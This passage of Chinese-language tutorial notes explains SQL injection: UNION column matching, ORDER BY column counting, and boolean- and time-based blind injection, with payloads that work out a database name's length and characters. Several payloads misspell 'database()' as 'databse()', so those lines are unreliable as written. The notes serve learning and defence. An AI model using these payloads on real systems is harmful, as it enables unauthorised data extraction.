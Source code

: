         * 前面 name,password 與後面 id,name,password 的數量不一，所以語法錯誤
    ``SELECT  name,password FROM users WHERE name=‘Bob’ UNION SELECT email,phone FROM member 
WHERE name=‘Alice’;``
        * 前面 name,password 與後面 email,phone 的數量一樣，所以 work，即使查詢的 column_name 跟查詢的 table 不同也沒關係

### Order by
用於查詢共有幾個 column
```
SELECT * FROM users WHERE id = 1 order by 1      ---  WORK!
SELECT * FROM users WHERE id = 1 order by 2      ---  WORK!
SELECT * FROM users WHERE id = 1 order by 5      ---  FAIL!
SELECT * FROM users WHERE id = 1 order by 4      ---  WORK!
```
用 order by 慢慢逼近，就可以發現欄位為 4 個
### Blind SQL Injection
又稱 ”盲注”，基本上與一般的 SQL Injection 差不多，只是網站不會報錯，頂多回傳成功或失敗，因此難度提升很多
分兩種類型:
* Boolean Based
* Time Based

### Boolean Based
網站只會回彈查詢成功或失敗，沒有任何其他訊息

### Time Based
有些情況連成功或失敗都不會顯示，沒有任何訊息，這時候就可以使用 Time Based，用 SLEEP() 來判斷注入的語句是否成功，功的話就會因為 SLEEP() 的關係，網頁會延遲
e.g. ``id = 1 and SLEEP(10)``

### 利用 Blind SQL Injection 挖資料
先透過插入引號的方式判斷是否有注入漏洞``id = 1’``，如果顯示失敗，那很可能可以注入，一般情形的 SQL Injection 也可以先透過注入單引號的方式初步判斷是否有機會注入，如果網頁噴錯或是爛掉，那很可能有 SQL Injection 漏洞，然後做一連串逼近
* 發現可以注入後，可以先猜測資料庫名稱長度
```
1 and length(database())=1 #，顯示失敗；
1 and length(database())=2 #，顯示失敗；
1 and length(database())=3 #，顯示失敗；
1 and length(database())=4 #，顯示成功；
```
可以斷定當前資料庫的名稱長度為 4

``1 and ascii(substr(databse(),1,1))>97 #，顯示成功``
說明資料庫名第一個字的 ascii 碼大於 97 (a)
``1 and ascii(substr(databse(),1,1))<122 #，顯示成功``
說明資料庫名第一個字的 ascii 碼小於 122 (z)
``1 and ascii(substr(databse(),1,1))<103 #，顯示成功``
說明資料庫名第一個字的 ascii 碼小於 103 (g)
``1 and ascii(substr(databse(),1,1))<100 #，顯示失敗``
說明資料庫名第一個字的 ascii 碼不小於 100 (d)
``1 and ascii(substr(databse(),1,1))>100 #，顯示失敗``
說明資料庫名第一個字的 ascii 碼不大於 100 (d)

也就是說資料庫名的第一個字就是 d 了!!!
